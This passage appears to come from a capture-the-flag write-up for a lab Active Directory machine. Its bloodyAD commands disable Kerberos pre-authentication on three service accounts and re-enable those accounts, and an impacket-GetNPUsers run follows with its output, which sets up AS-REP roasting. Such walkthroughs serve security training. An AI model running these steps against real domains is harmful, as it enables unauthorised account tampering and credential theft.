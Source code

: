 COMMANDS:

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
```


We enable the account as follows

```bash
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_ARK's userAccountControl
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_LDAP's userAccountControl
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```

COMMANDS:

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE
```

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
```


We verify the domain user again with the following command

```bash
impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
```

```bash
❯ impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
```